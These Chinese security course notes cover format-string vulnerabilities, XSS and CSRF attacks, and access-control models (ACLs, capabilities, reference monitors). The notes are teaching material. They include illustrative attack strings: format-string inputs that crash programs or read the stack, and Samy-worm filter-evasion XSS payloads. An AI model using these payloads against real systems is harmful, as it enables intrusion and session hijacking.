### ●如果格式字符串与实际参数不匹配会怎么样？
```
printf ("a的值为%d, b的值为%d, c的地址为：%08x", a, b);
```
- 在上面的例子中，格式字符串要求3个参数，但程序实际上只提供了两个（即a和b）。
- 这个程序能通过编译器吗？
    - 函数 printf()被定义为具有可变长度参数的函数。因此，通过查看参数的数量，一切看起来都很好。
    - 要找到不匹配，编译器需要理解 printf()的工作原理以及格式字符串的含义。然而，编译器通常不进行这种分析。
    - 有时，格式字符串不是一个常量字符串，而是在程序执行过程中生成的。因此，编译器无法在这种情况下找到不匹配。
- printf() 能检测到不匹配吗？
    - 函数 printf()从堆栈中获取参数。如果格式字符串需要3个参数，它将从堆栈中获取3个数据项。除非堆栈标记有边界，否则 printf()不知道它已经用完了提供给它的参数。
    - 由于没有这样的标记。printf()将继续从堆栈中获取数据。在不匹配的情况下，它将获取一些不属于此函数调用的数据。
- 当printf()开始获取为其预定的数据时，可能会引起什么问题？

### 格式化字符串漏洞的2种攻击方式

- 使程序崩溃
```
printf ("%s%s%s%s%s%s%s%s%s%s%s%s%s");
```
- 对于每个%s，printf()将从堆栈中获取一个数字，将此数字视为地址，并将该地址指向的内存内容打印为字符串，直到遇到NULL字符（即数字0，而不是字符0）。
- 由于printf()获取的数字可能不是一个地址，指向该数字的内存可能不存在（即没有为该地址分配物理内存），程序将崩溃。
- 也有可能数字恰好是一个好的地址，但地址空间受到保护（例如，它被保留用于内核内存）。在这种情况下，程序也会崩溃。

#### ●查看堆栈
```
printf ("%08x %08x %08x   %08x %08x\n");
```
- 这指示printf函数从堆栈中检索五个参数，并将它们显示为8位填充的十六进制数。因此，可能的输出可能如下所示：
```
40012980 080628c4 bffff7a4 00000005 08059c04
```

#### ●查看任意位置的内存

- 我们必须提供内存的地址。然而，我们不能改变代码；我们只能提供格式字符串。
- 如果我们使用 printf (%s) 而不指定内存地址，目标地址仍将通过 printf() 函数从堆栈中获取。该函数维护一个初始堆栈指针，因此它知道堆栈中参数的位置。
- 观察：格式字符串通常位于堆栈上。如果我们可以将目标地址编码在格式字符串中，目标地址将位于堆栈上。在下面的示例中，格式字符串存储在位于堆栈上的缓冲区中。
```
int main(int argc, char *argv[])
{
    char user_input[100];
    ... ... ... ... ... ... ... ... ... ... /* 其他变量定义和语句 */
    scanf("%s", user_input); /* 从用户获取一个字符串 */
    printf(user_input); /* 存在漏洞的地方 */
    return 0;
}
```
- 如果我们可以强制printf从格式字符串（也位于堆栈上）获取地址，我们就可以控制地址。
```
printf ("\x10\x01\x48\x08   %x %x %x %x %s");
```
- \x10\x01\x48\x08是目标地址的四个字节。在C语言中，\x在字符串中表示将十六进制值0x10放在当前位置。该值将占用一个字节。如果不使用\x，直接在字符串中放入"10"，字符'1'和'0'的ASCII值将被存储。它们的ASCII值分别为49和48。

## 网络安全

### 1 HTTP, HTML和JavaScript

- HTTP请求
    - 请求行，例如GET /images/logo.gif HTTP/1.1，请求服务器上的资源/images/logo.gif
    - 头部，例如Accept-Language: en
    - 一个空行
    - 一个可选的消息体

- 请求方法
    - GET请求：将数据附加在URL中
    - POST请求：提交要处理的数据（例如来自HTML表单）到标识的资源。数据包含在请求的正文中。

- HTML：一个示例

```
<html>
<body>
<h1>我的第一个标题</h1>
<p>我的第一个段落。</p>
</body>
</html>
```

- HTML中的JavaScript：一个“Hello World”示例

```
<script type="text/javascript">
document.write('Hello World!');
</script>
```

- JavaScript能做什么？
    - JavaScript为HTML设计师提供了一种编程工具。
    - JavaScript可以将动态文本放入HTML页面中：像下面这样的JavaScript语句，将一个变量文本写入HTML页面中：
        document.write("<h1>" + name + "</h1>")
    - JavaScript可以对事件做出反应：当某些事情发生时，JavaScript可以被设置为执行，比如当页面加载完成或用户点击HTML元素时。
        <a href="xyz.html" onclick="alert('我被点击了！')">
    - JavaScript可以读取和写入HTML元素：JavaScript可以读取和更改HTML元素的内容。

```
var doc = document.childNodes[0];
```

    - JavaScript可以用于验证数据：JavaScript可以用于在将表单数据提交到服务器之前验证数据。这样可以节省服务器的额外处理。
    - JavaScript可以用于检测访问者的浏览器：JavaScript可以用于检测访问者的浏览器，并根据浏览器加载另一个专为该浏览器设计的页面。
    - JavaScript可以访问cookie：JavaScript可以用于在访问者的计算机上存储和检索信息。

```
var cookie = document.cookie;
```

    - JavaScript可以与服务器交互（例如使用Ajax）。

- Ajax：Ajax（异步JavaScript + XML的简称）是一组相互关联的用于客户端的Web开发技术，用于创建交互式Web应用程序。通过Ajax，Web应用程序可以在后台异步地从服务器检索数据，而不会干扰现有页面的显示和行为。使用Ajax技术可以增加Web页面上的交互或动态界面，并由于异步模式而提供更好的Web服务质量。通常使用XMLHttpRequest对象来检索数据。尽管名称中包含JavaScript和XML，但实际上并不需要使用它们，也不需要请求是异步的。

```
<html>
<body>
<script type="text/javascript">
var xmlhttp;
function ajaxFunction()
{
  xmlhttp=new XMLHttpRequest();
  xmlhttp.onreadystatechange=readyFunction();
  xmlhttp.open("GET","time.asp",true);
  xmlhttp.send(null);
}
function readyFunction()
{
    if (xmlhttp.readyState==4)
    {
        document.myForm.time.value=xmlhttp.responseText;
    }
}
</script>
<form name="myForm">
姓名:<input type="text" name="username" onkeyup="ajaxFunction();" />
时间:<input type="text" name="time" />
</form>
</body>
</html>
```

- 安全的网络访问
    - 认证
    - 访问控制: 访问控制的基础是什么?
    - 讨论

- Web访问控制和操作系统访问控制的区别

| 特性 | 操作系统访问控制 | Web访问控制 |
| :--- | :--- | :--- |
| 状态 | 有状态。用户经过身份验证后，会一直保持登录状态，直到用户退出。操作系统保持状态: 经过身份验证的用户获得一个具有其特权的进程; 这个进程保持用户已经经过身份验证的事实。其他用户无法劫持此进程。 | 无状态。当用户经过身份验证后，他/她可能发送多个其他请求。整个持续时间被称为一个会话。由于Web服务器是无状态的，它不会记住关于此会话的任何信息。也就是说，当用户发送请求时，服务器不知道它们是否来自同一个会话（因此，来自同一个用户）。换句话说，由于Web服务器缺乏会话概念，每个Web请求都必须经过身份验证; 否则，攻击者可以劫持会话。 |

- 会话ID
    - Web应用程序必须记住会话。例如，当主机需要为用户定制网站内容时，Web应用程序必须编写以跟踪用户在页面之间的进展。
    - 如何知道两个请求来自同一个会话，因此不需要单独的身份验证?
    - 一种常见的解决方案是使用会话ID。
    - 会话ID存储在哪里:
        * 使用cookie记录状态: 将自动包含在HTTP请求中。
        * 在表单中使用隐藏变量: 在提交表单时将自动发送。
        * 使用URL编码参数: 必须在HTTP请求中附加会话ID。以下是一个示例:

```
/index.php?session_id=some_unique_session_code.
```

- Cookie和会话ID
    - Cookie（也称为跟踪cookie、浏览器cookie和HTTP cookie）是由Web浏览器存储在用户计算机上的一小段文本。Cookie由一个或多个名称-值对组成，包含用户偏好、购物车内容、基于服务器的会话标识符或其他网站使用的数据等信息。
    - 它作为HTTP头部由Web服务器发送给Web浏览器，然后由浏览器每次访问该服务器时原样发送回来。Cookie可用于身份验证、会话跟踪（状态维护）以及记住用户的特定信息，例如站点偏好或电子购物车的内容。术语“Cookie”源自UNIX计算中的“魔法Cookie”，这个概念启发了浏览器Cookie的想法和名称。存在一些替代Cookie的方法; 每种方法都有其自身的用途、优势和缺点。
    - 作为简单的文本，Cookie不可执行。它们既不是间谍软件也不是病毒，尽管来自某些网站的Cookie会被许多反间谍软件产品检测到，因为它们可以在用户访问各种网站时进行跟踪。

#### ● 服务器端访问控制

- 主题：带有会话ID的身份验证。
- 对象：文件、数据等。
- 策略：可以是DAC（例如Facebook），MAC或其他。

#### ● 浏览器端访问控制

- 服务器端访问控制依赖于浏览器端访问控制的完整性。
- 还应该保护用户行为的完整性：即恶意用户不能影响/更改合法用户的行为。
- 基本要求是什么？
    * 会话ID：不能被盗取。
    * 程序/数据：不能被未经授权的用户修改。
- 策略：同源策略（SOP）

### 2 JavaScript的访问控制

> 在课堂上，我们将给学生15分钟的时间讨论他们想要如何限制JavaScript的访问。基本上，要求学生为Web浏览器实现一个访问控制系统，以保护用户免受恶意JavaScript代码的攻击。决策必须得到合理的解释，并且需要在可用性和安全性之间保持平衡。

- 我们从哪里开始？我们首先需要了解什么是主体和客体，然后我们可以讨论访问控制。
- 主体（细粒度）：JavaScript代码的来源。
- 对象（细粒度）：DOM，Cookies，操作系统资源（文件，进程，设备，网络，键盘，鼠标，内存等）。
- 策略：
    - 同源策略（SOP）.
    - 直接访问操作系统资源是被禁止的.
    - 浏览器提供API给JavaScript，因此操作系统资源可以间接访问. 例如，JavaScript可以使用Ajax API发送消息，使用DOM API访问DOM对象和cookies，等等.

### 3 跨站脚本攻击 (XSS)

- XSS的目标:
    - 攻击者向目标网站X注入恶意JavaScript代码。
    - 当其他用户从X浏览被感染的页面时，浏览器会认为JavaScript来自X。
    - 同源策略允许恶意JavaScript访问X的cookies，从而可以代表用户向X发送合法的HTTP请求，而不需要用户的同意。

- Samy蠕虫 (请参阅Samy在http://namb.la/popular/的描述)。
    - Myspace.com: Samy在他的个人资料中添加了JavaScript代码；浏览该个人资料的人将被感染。
    - 这个蠕虫将Samy添加到受害者的好友列表中，然后进一步传播给那些查看他们个人资料的人。
    - Samy在不到20小时内成为了一百万用户的好友。

- 很难过滤掉JavaScript代码: Myspace确实有一些过滤器试图过滤掉JavaScript代码，但Samy蠕虫已经克服了这些障碍 (技术细节在此处描述: http://namb.la/popular/tech.html):
    - Myspace阻止了许多标签，包括 `<script>`, `<body>` 和 `onClick`, `onAnything`。因此，Samy蠕虫无法使用这些标签。然而，一些浏览器 (IE, 某些版本的Safari等) 允许在CSS标签中使用JavaScript (即不使用这些标签)。例如，下面的标签包含了一个JavaScript代码，而不使用那些被禁止的标签: `<div style="background:url('javascript:alert(1)')">`
    - Myspace从任何地方删除了单词 `javascript`。幸运的是，一些浏览器实际上会将 `java<NEWLINE>script` 解释为 `javascript`: `<div style="background:url('java\n\nscript:alert(1)')">`
    - Samy蠕虫需要使用AJAX才能使实际客户端进行HTTP GET和POST到页面。然而，myspace删除了单词 "onreadystatechange"，这对于XMLHttpRequest请求是必要的。可以使用 `eval` 来规避这个问题。也就是说，不是使用Choice 1中的代码，我们可以使用Choice 2 (Samy蠕虫使用了几个类似的技巧):
        Choice 1: xmlhttp.onreadystatechange = callback;
        Choice 2: eval('xmlhttp.onread' + 'ystatechange = callback');
    - Myspace还过滤了其他几个东西，但是它们被Samy蠕虫成功规避了。

- 潜在的损害
    - 代表受害者发送未经授权的请求。
    - 网页篡改: 恶意的JavaScript代码可以访问和修改页面中的DOM对象。例如，它可以用不同的图片替换网页中的图片。

- 对策
    - 进行更好的过滤（被证明很困难）。
    - Noscript区域：不允许JavaScript出现在网页的某个区域。

### 4 跨站请求伪造（CSRF）攻击

- CSRF攻击
    - Web应用任务通常与特定的URL链接在一起（例如：`http://site/buy_stocks?buy=200&stock=yahoo`），允许在请求时执行特定的操作。
    - 如果用户已登录到网站，并且攻击者诱使他们的浏览器向其中一个任务URL发出请求，那么任务将被执行并记录为已登录用户的操作。这些诡计可以从攻击者的网页上放置；攻击者所需做的就是诱使用户在登录到目标网站时访问他们的攻击网页。
    - 当用户发出请求时（无论用户是否被欺骗），浏览器会自动将cookie附加到请求中。
    - 对于使用HTTP GET的Web应用程序：攻击者可以使用图像标签 `` 来导致受害者的浏览器发送HTTP GET请求（当受害者访问攻击者的网页时，HTTP GET请求将由图像标签发起）。以下是一个示例：
        ``
    - 对于使用HTTP POST的Web应用程序：向此类应用程序发送数据不像向基于GET的应用程序发送数据那样简单，因为我们无法将数据附加到URL的末尾以供POST-based应用程序使用。然而，借助JavaScript的帮助，攻击者可以发送数据。基本思想是攻击者在自己的网站上制作一个Web表单（使用JavaScript），然后使用JavaScript自动提交表单到目标网站。我们不能在这里使用AJAX，因为AJAX只能与网页源（SOP策略）进行通信。

- CSRF和XSS的区别
    - CSRF不需要运行JavaScript代码（仅适用于GET）；XSS需要。
    - 使用JavaScript代码：
        * CSRF：代码直接从攻击者的网页运行。
        * XSS：代码必须被注入到目标网站的页面中。
    - 服务器端输入验证：
        * 它不能防止CSRF，因为攻击内容不在目标网站上。
        * 如果恶意JavaScript代码可以被过滤掉，它可以在一定程度上防止XSS。

- 对策
    - 因为CSRF使用的JavaScript代码（如果使用）不来自目标网站，恶意JavaScript无法查看目标网站的cookie。
    - 我们可以要求所有的HTTP请求（包括GET和POST）在附加参数中也包含来自cookie的内容（如会话ID），除了浏览器自动附加的cookie。来自目标网站的JavaScript代码可以从cookie中获取秘密，但来自恶意网站的JavaScript代码无法访问cookie。

### XSS和CSRF的5个基本问题

XSS和CSRF的基本问题是什么？ 让我们从访问控制的角度评估这些问题。 当前Web浏览器（即SOP模型）使用的访问控制模型有什么问题吗？ 如果没有问题，我们能否从设计角度找出问题所在？让我们回顾Saltzer和Schroeder在他们的经典论文《计算机系统中的信息保护》[1]中制定的访问控制原则。 我们在访问控制讲座中已经涵盖了这些原则。 在这里，我们将使用这些原则评估一个访问控制设计：

- 机制的经济性
- 安全失败的默认设置
- 完全中介
- 开放设计
- 特权分离
- 最小特权
- 最小公共机制
- 心理可接受性

然后，我们将在课堂上进行15分钟的讨论，讨论以下主题：SOP设计违反了上述原则中的哪些？如果我们想遵循这些原则，我们应该怎么做？

## 参考文献

> > [1] J. H. Saltzer 和 M. D. Schroeder.计算机系统中的信息保护. 在IEEE会议录，第63卷，第9期。（1975年），第1278-1308页。

## 访问控制

### 1 访问控制概述

- **什么是访问控制？**
    - 只允许授权用户、程序或进程访问系统或资源的能力
    - 根据特定的安全模型，根据一定的权限授予或拒绝对资源的访问
    - 由硬件、软件和管理员执行的整套程序，用于监视访问、识别请求访问的用户、记录访问尝试，并根据预先建立的规则授予或拒绝访问。
    - 访问控制是安全的核心

- **访问控制的例子**
    - 社交网络：在大多数社交网络（如Facebook和MySpace）中，你的一些个人信息只能被你自己访问，一些可以被你的朋友访问，一些可以被所有人访问。实施这种控制的系统部分正在进行访问控制。
    - Web浏览器：当你浏览一个网站并运行来自该网站的JavaScript代码时，浏览器必须控制此类JavaScript代码可以访问的内容以及不能访问的内容。例如，一个网站的代码不能访问另一个网站的cookies，也不能修改另一个网站的内容。这些控制由浏览器的访问控制进行。
    - 操作系统：在操作系统中，一个用户不能随意访问另一个用户的文件；普通用户不能终止另一个用户的进程。这些由操作系统的访问控制完成。
    - 内存保护：在Intel 80x86架构中，一个区域（例如Ring 3）中的代码不能访问另一个更高权限的区域（例如Ring 0）中的数据。这是由CPU中实现的访问控制完成（例如80386保护模式）。
    - 防火墙：防火墙检查每个传入（有时是传出）的数据包，如果一个数据包符合某些条件，它将被防火墙丢弃，防止其访问受保护的网络。这也是访问控制。

- **我们应该学习关于访问控制的什么？**
    - 访问控制策略模型：访问控制策略如何配置和管理。
        * 自主访问控制（DAC）
        * 强制访问控制（MAC）
    - 访问控制机制：系统中如何实施访问控制。
        * 访问控制矩阵
        * 访问控制列表

## 2个访问控制方法

- 访问控制矩阵
    - 缺点：在大型系统中，矩阵的大小会非常庞大且大部分是稀疏的。

- 访问控制列表
    - 访问控制矩阵的列。
    - 优势：
        * 容易确定谁可以访问给定的对象。
        * 容易撤销对对象的所有访问权限。
    - 缺点：
        * 难以知道给定主体的访问权限。
        * 难以撤销用户对所有对象的权限。
    - 被大多数主流操作系统使用。

- 能力列表
    - 访问控制矩阵的行。

## 3个访问控制列表示例

- UNIX 访问控制列表
    - 访问控制列表的缩写：
        * 三个类别：所有者，组，其他用户
        * 存在粒度损失的问题
    - 完整的访问控制列表

- Windows NT
    - 通用权限：无访问权限，读取权限，更改权限，完全控制权限。
    - 内置组（每个组具有不同的特权）
        * 所有人：所有用户
        * 交互式：本地登录的用户
        * 网络：通过网络登录的用户
        * 系统：操作系统
        * 创建者/所有者：文件或资源的创建者或所有者

- 社交网络
    - 大多数社交网络使用ACL作为其主要访问控制模型。用户可以指定谁可以访问他们的个人资料、好友列表等。

- 操作系统中如何实现ACL？
    - 访问控制列表存储在哪里？（必须放在安全的地方）
    - ACL保存在inode数据结构中。
    - inode数据结构（见图1）。

```
EXTERN struct inode {
    mode_t i_mode;          /* 文件类型、保护等 */
    nlink_t i_nlinks;       /* 指向该文件的链接数 */
    uid_t i_uid;            /* 文件所有者的用户ID */
    gid_t i_gid;            /* 组号 */
    off_t i_size;           /* 当前文件大小（以字节为单位） */
    time_t i_atime;         /* 上次访问时间（仅限v2） */
    time_t i_mtime;         /* 文件数据上次更改时间 */
    time_t i_ctime;         /* inode本身更改时间（仅限v2） */
    zone_t i_zone[10];      /* 直接、间接和双重间接的区域号码*/
    ...
} inode[NR_INODES];
```

图1：Minix中的inode数据结构

## 4个访问控制的设计原则

实践中，制作一个能够防止所有攻击的系统被证明是困难的。然而，经验提供了一些有用的原则，可以指导设计并为实现提供没有安全漏洞的贡献。以下是适用于保护机制的八个设计原则的示例。这些原则由Saltzer和Schroeder在一篇经典论文《计算机系统中的信息保护》[1]中进行了总结和解释。我们在这里列出这些原则，你可以从论文中阅读详细的解释。

1. 机制的经济性：设计尽可能简单和小。
2. 失效安全的默认值：基于权限而不是排除来进行访问决策。
3. 完全中介：必须检查对每个对象的每次访问的权限。
4. 开放设计：设计不应该是秘密的。
5. 特权分离：在可行的情况下，需要两个密钥才能解锁的保护机制比只允许访问一个密钥的机制更强大和灵活。
6. 最小特权原则：系统的每个程序和每个用户都应该使用完成工作所需的最小权限集。
7. 最小公共机制：最小化适用于多个用户并且所有用户都依赖的机制的数量。
8. 心理可接受性：必须设计易于使用的人机界面，以使用户能够正确地、常规地自动应用保护机制。此外，只要用户对他的保护目标的心理形象与他必须使用的机制相匹配，错误将被最小化。

这些原则并不代表绝对规则——它们最好作为警告。如果设计的某个部分违反了原则，违反就是潜在问题的症状，应该仔细审查设计，确保问题已经被考虑到或者不重要。

### 5 参考监视器

参考监视器的概念是由詹姆斯·安德森等人在1972年的《计算机安全技术规划研究》中引入的。这份文件被广泛称为安德森报告。参考监视器提供了一个抽象模型，该模型必须由任何声称安全地执行访问控制的系统实现的必要和充分属性。参考监视器的三个属性总结如下：

1. 每次进行访问控制时，访问调解机制都会被调用。如果不是这样的话，那么实体就有可能绕过机制并违反必须执行的策略。
2. 访问调解机制是防篡改的。在该模型中，攻击者无法攻击访问调解机制，以使所需的访问检查不被执行和授权不被执行。
3. 它必须足够小，以便进行分析和测试，其完整性可以得到保证。这必须是这样的，因为如果可以证明机制有缺陷，那么它就无法执行策略。

## 参考文献

> [1] J. H. Saltzer 和 M. D. Schroeder.计算机系统中的信息保护. 在IEEE会议录，第63卷，第9期。（1975年），第1278-1308页。

## 基于能力的访问控制

## 1个类比：银行类比

我们想用一个例子来说明需要能力的原因。在下面的银行例子中，我们将讨论两种访问控制机制：访问控制列表（ACL）和能力。我们将比较这两种不同机制的优缺点。

例子：爱丽丝希望将她所有的贵重物品放在银行的三个保险箱中。偶尔，她希望一个或多个可信任的朋友代她存取款。银行有两种控制箱子访问的方式。

- 银行维护一个授权访问每个箱子的人员名单。
- 银行向卡拉发放一个或多个保险箱的钥匙。

- ACL方法
    - 认证：银行必须进行认证。
    - 银行的参与：银行必须（i）存储名单，（ii）验证用户。
    - 伪造访问权限：银行必须保护名单。
    - 添加新人：所有者必须亲自去银行。
    - 委托：朋友不能将他或她的特权授予他人。
    - 撤销：如果朋友变得不可信任，所有者可以删除他/她的名字。

- 能力方法
    - 认证：银行不需要进行认证。
    - 银行的参与：银行不需要参与任何交易。
    - 伪造访问权限：密钥无法伪造。
    - 添加新人：所有者可以将密钥交给其他人。
    - 委托：朋友可以将他或她的特权授予他人。
    - 撤销：所有者可以要求收回密钥，但可能无法知道朋友是否复制了密钥。

- 艾丽斯处于敌对环境中
    - 艾丽斯确实有社交生活，她经常和朋友去酒吧，其中一些可能是邪恶的。因此，艾丽斯可能会喝醉；当人们喝醉时，他们可能会做一些后悔的事情或犯错误。在这种情况下，哪种方法（ACL或能力）更好？

A:使用能力方法，当爱丽丝去喝酒时，她可以选择不带钥匙。这样，即使她喝醉了，也无法打开保险箱。在ACL方法中，没有这种保护。这种能力方法的保护体现了最小权限原则。

- 爱丽丝经常派遣她的员工去完成任务。这些任务涉及多次去银行，打开多个保险箱。然而，外部环境非常恶劣，员工可能随时被绑架。绑匪可以强迫员工从保险箱中取出贵重物品。大多数员工在被绑架时不会反抗。

哪种访问控制方法可以更好地保护爱丽丝的贵重财产？
A:使用能力方法，员工可以销毁不需要的钥匙（爱丽丝仍然拥有所有钥匙的副本）。这样，即使员工被绑架，损失也可以降到最低。ACL方法很难实现这种保护。

### 2 能力概念

- 能力概念由Dennis和Van Horn于1966年引入。

> "能力是一种令牌、凭证或密钥，赋予持有者访问计算机系统中的实体或对象的权限。"

- 直观的例子
    - 电影票是观看电影的能力。
    - 钥匙是进入房屋的能力。

- 能力被实现为包含以下内容的数据结构：
    - 标识符：地址或名称。例如，内存段、数组、文件、打印机或消息端口。
    - 访问权限：读取、写入、执行、访问等。

- 使用能力
    - 显式使用：必须明确展示你的能力。这就是我们去电影院时所做的：我们向门卫展示我们的票。以下是另一个常见的示例，当程序尝试访问文件时：

```
PUT（文件能力，“这是一条记录”）；
```

- 隐式使用：不需要显示能力，但系统会自动检查是否具备适当的能力。类比于这一点就是剧院的门口检票员会搜查你的口袋是否有正确的票。尽管这个类比在操作系统中有些尴尬，但它是非常常见的。能力列表方法基本上使用了这种方法。也就是说，每个进程都携带着一份能力列表；当它尝试访问一个对象时，访问控制系统会检查这个列表，看进程是否具备正确的能力。

与显式使用方法不同，使用这种方法时，进程（或编写程序的程序员）不需要弄清楚应该向系统呈现哪个能力。

- 比较：隐式方法效率较低，特别是当能力列表很长时。然而，它可能更容易使用，因为与显式方法不同，能力对用户是透明的；因此，用户不需要意识到这些能力。

- 能力的标识符可以是很多东西，包括用户、进程、过程和程序：
    - 用户能力：用户是更持久的标识符。它的能力可以存储在文件中。
    - 进程能力：进程不是持久的标识符，它们通常动态获取能力。
    - 过程能力：（1）调用者和被调用者可以有不同的能力（2）大多数能力系统更进一步：允许每个过程拥有私有的能力列表。
    - 程序能力。
        * 给程序赋予能力可以实现特权升级和降级。
        * 示例：Trusted Solaris中的特权（请参见Trusted Solaris的案例研究）。
        * Set-UID程序是一种特殊情况：Set-UID程序具有根能力。

- LIDS（Linux入侵检测系统）中实现的能力示例
    - CAP_CHOWN：覆盖更改文件所有权和组所有权的限制。
    - CAP_DAC_READ_SEARCH：覆盖所有关于文件和目录读取和搜索的DAC限制。
    - CAP_KILL：具备杀死任何进程的能力。
    - CAP_NET_RAW：具备使用原始套接字的能力。
    - CAP_SYS_BOOT：具备重新启动的能力。

## 3个能力实现

- 能力应该存储在哪里？能力对系统安全至关重要。一旦将能力授予用户，用户就不应该能够篡改能力。
    - 存储在受保护的地方：能力可以存储在受保护的地方。用户无法触碰能力；他们以隐式方式使用能力：
        * 在内核中：这种方法采用了能力列表的方法，其中能力列表存储在内核中（例如在进程数据结构中）。用户无法修改任何能力的内容，因为他们无法访问内核。每当用户需要他们的能力时，系统将访问内核中的能力列表。
        * 标记架构：能力可以保存在标记为只读和仅限使用的内存中。
    - 在一个不受保护的地方：在某些应用中，用户可能需要随身携带他们的能力。当他们请求访问时，他们只需向系统呈现他们的能力。这是能力的明确使用。
        * 如何防止用户篡改能力？因为权限被编码在能力中，如果用户可以篡改能力的内容，他们可以获得未经授权的特权。
        * 可以使用加密校验和来实现保护：能力发行者可以在能力上放置加密校验和（例如数字签名）。任何对能力的篡改都将被检测到。

这种方法广泛应用于分布式计算环境中，其中需要将能力从一台计算机传输到另一台计算机；因此，依靠内核来保护能力是不可行的。

混合方法：用户可以以明确的方式使用能力，但能力存储在安全的位置。

* 真正的功能存储在一个表中，该表位于受保护的位置（例如内核）中。
* 用户被赋予这些功能的索引。他们可以向系统呈现索引，以显式地使用功能。

* 用户通过伪造索引不能获得任何额外的功能。

# 功能的基本操作：

- 创建功能：为用户创建功能（或分配给用户）。

- 委派功能：一个主体将其功能委派给其他主体。与委派相关的特性有很多有趣的特点：
    * 过期时间：指定委派功能的生命周期。
    * 传播控制：指定通过委派获得功能的用户是否可以进一步委派功能。

- 撤销功能：一个主体撤销其委派给其他主体的功能。一般情况下，撤销的实现是一个困难的问题。以下是两种常见的撤销方案：
    * 方法1：每个功能指向一个间接对象。当撤销功能时，我们可以简单地删除间接对象。
    * 方法2：使用随机数。所有者可以更改数字。用户还必须提供数字以及能力。（在Amoeba中使用）
    * 上述两种方法不允许选择性吊销。
    * 将到期时间附加到委托的能力上可以实现自动吊销。

- 启用能力：主体启用一个禁用的能力。

- 禁用能力：主体暂时禁用一个能力。

- 删除能力：主体永久删除一个能力。

* 应注意，禁用能力与删除能力是不同的。它们都有助于实现最小特权原则。

* 当一个任务（例如进程）不再需要一个能力时，应该从任务中永久删除该能力。这样，即使任务被入侵以执行恶意代码，该代码也无法使用该能力。

* 当一个能力以后仍然需要，但不会被子任务（例如进程中的一个过程）所需要时，应该禁用该能力。当需要该能力时，可以启用它。应注意，如果任务被入侵以执行恶意代码，禁用能力毫无帮助，因为恶意代码可以启用该能力。然而，如果任务通过其他方式被入侵（即没有执行恶意代码），禁用能力可以减少损害。

```
/* (在src/fs/fproc.h中) */
struct fproc {                         /*进程表*/
    .....
    struct filp *fp_filp[OPEN_MAX]; /*文件描述符表*/
}

struct filp {                       /*Filp表*/
    mode_t file_mode;    /*RW位，指示文件如何打开*/
    int filp_flags;
    int filp_count; /*有多少个文件描述符共享此槽位？ */
    struct inode *filp_ino    /*指向inode表的指针*/
    off_t filp_pos;
}
```

图1：文件描述符表数据结构

#### 案例研究4：使用能力进行文件访问

众所周知，大多数Unix操作系统使用访问控制列表（ACL）作为基本的访问控制机制；然而，较少人知道能力概念在大多数Unix操作系统中也被长期使用。如果你不相信这一点，看看下面的程序（该程序由普通用户执行）：

```
1:    f = open("/etc/passwd", "r");
2:    read(f, buf, 10);
3:    write(f, buf, 10);

      /* 在执行下面的语句之前，root 修改了 /etc/passwd 的权限为 600，即普通用户无法再读取该文件。 */
4:
      read(f, buf, 10);
```

因为 /etc/passwd 文件的权限是 644，普通用户可以打开该文件进行读取。所以第 1 行的语句是成功的。这个访问控制决策是基于 ACL 的。现在看看第 2 行和第 3 行。我们知道第 2 行会成功，但第 3 行会失败；显然，对读取和写入都有访问控制。访问控制是基于 ACL 吗？如果你的答案是是，那么回答以下问题：第 4 行会成功还是失败？第 4 行是在修改了 passwd 文件的访问控制列表之后执行的。如果第3行的访问控制是基于ACL的话，读取操作应该失败。然而，有趣的是，程序仍然可以从passwd文件中读取。我们可以得出一个逻辑结论：读取的访问控制决策不是基于ACL的。那么它是基于什么的呢？实际上，它是基于能力的。

- 文件描述符是能力的一种应用。当一个文件被打开时，会创建一个文件描述符并存储在filp表中（图1）。每个进程都有一个filp表，它存储在内核空间中（受保护）。用户空间应用程序被给予文件描述符的索引（我们通常称之为文件描述符，但实际上它只是一个指向真实描述符的索引）。

filp表实际上是一个能力列表。它包含了一系列文件描述符。每个文件描述符都包含一个权限部分，描述了进程对该文件的操作权限；文件描述符还包含一个标识符，即文件的I节点的地址（图2）。

- 基本的能力操作：
    - 创建能力：通过`open()`系统调用创建能力。一个进程是否被允许创建能力取决于另一个访问控制机制，即访问控制列表（ACL）。也就是说，将检查文件的ACL以决定进程是否能够打开该文件。如果是，将创建一个能力。这个有趣的例子展示了ACL和能力之间的一种协调方式。
    - 删除能力：通过`close()`删除能力。这个系统调用将从filp表中移除相应的能力。
    - 其他操作，如委托、撤销、启用和禁用，不受支持。

- 问题与回答：
    - 问题：能够伪造一个能力吗？即，能够在没有合法能力的情况下访问文件吗？
        答案：不行。相应的I-node条目必须在表中。
    - 问题：我们可以直接使用`fp filp[10]`吗？
        答案：如果`fp filp[10]`为空，则没有用处。用户无法修改filp表，因为该表存储在内核空间中。
    - 问题：一个进程打开一个文件后（权限为744，所有者为root），文件的权限被root更改为700；这个进程仍然能够读取文件吗？
        答案：是的，只要进程使用文件描述符访问文件。文件描述符是一个能力，允许进程在文件的ACL更改后仍然访问该文件。

### 5 案例研究：使用能力进行内存访问

- 一个进程只能访问自己的内存，并且访问必须经过授权。这种访问控制主要使用能力来实现（见图3）。

- 段描述符表是一个能力列表，其中包含进程可以访问的所有内存段。段表只能由系统设置，而不能由用户设置。每个描述符指定一个可以使用该能力访问的内存块；它还指定了进程对该内存块的权限（读、写和执行）。
- 当一个进程尝试访问内存时，进程提供的地址被视为虚拟地址。虚拟地址包含一个索引，指向段描述符表中的能力。使用能力，系统首先确保进程有权访问内存；然后计算内存的真实物理地址。
- 整个过程由硬件支持完成。否则，你可以想象一下，一个内存访问将花费多少个CPU周期。80x86保护模式也使用了这种方法。我们将在本课程的后半部分详细讨论这种保护模式。

- 某些基于能力的系统由一组能力寄存器组成。
    - 程序可以执行硬件指令，将能力在能力列表和能力寄存器之间传输。
    - 只有能力寄存器中包含的能力才有效。这样，一个进程可以限制自己的能力，以实现最小特权原则。
    - 另一个好处是性能。寄存器中的能力可以比存储在内存中的能力更快地处理。

#### 案例研究：使用能力的特权程序

通常，用户需要特殊权限来执行任务（例如更改密码）。在基于能力的系统中，特权通常由能力表示。也就是说，为了执行任务，用户需要一些特殊的能力。然而，授予用户这些能力是不安全的，因为他们可能会将特权用于其他任务。如果我们能确保用户只在执行预期任务时获得能力，任务完成后能力将被收回，那将是理想的。

这个目标与 Set-UID 程序试图实现的目标类似。基本思想是将特权分配给程序，而不是用户。如果用户运行此程序，他们将获得特权；如果程序结束，他们将失去特权。我们将研究如何在基于能力的系统中实现这种机制。

-   当执行特权程序时，能力将生效。例如，如果一个程序具有文件读取能力，即使运行程序的用户不是超级用户，它也可以读取所有文件。
-   我们在哪里存储程序的能力？
